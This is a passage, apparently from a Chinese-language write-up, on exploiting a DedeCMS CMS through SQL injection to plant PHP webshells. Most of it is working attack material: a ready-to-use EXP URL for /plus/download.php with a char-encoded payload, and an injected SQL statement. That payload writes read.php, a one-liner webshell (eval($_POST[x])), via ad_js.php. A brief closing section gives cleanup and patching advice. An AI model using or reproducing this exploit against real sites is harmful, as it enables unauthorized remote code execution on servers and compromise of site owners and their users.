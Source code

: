 （4）执行如下语句，在/plus目录下生成90sec.php一句话木马 http://www.xxxx.com/plus/mytag_js.php?aid=9013

**利用方式三：使/plus/ad_js.php文件变为一句话木马php**

（1）如：构造如下注入SQL语句：

```
cfg_dbprefixmyadSETnormbody= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHEREaid` =19 #
```

（2）对应的EXP:

```
/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35
```

（3）执行EXP后，将向数据库表dede_myad中插入一条记录。

（4）进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

------

如何清除？

1、删除网站目录中的webshell

2、清除dede_myad、dede_mytag数据库表中插入的SQL语句，防止再次被调用生成webshell。

如何防御？

网站采用开源CMS搭建，建议及时对官方发布的系统补丁以及内核版本进行升级。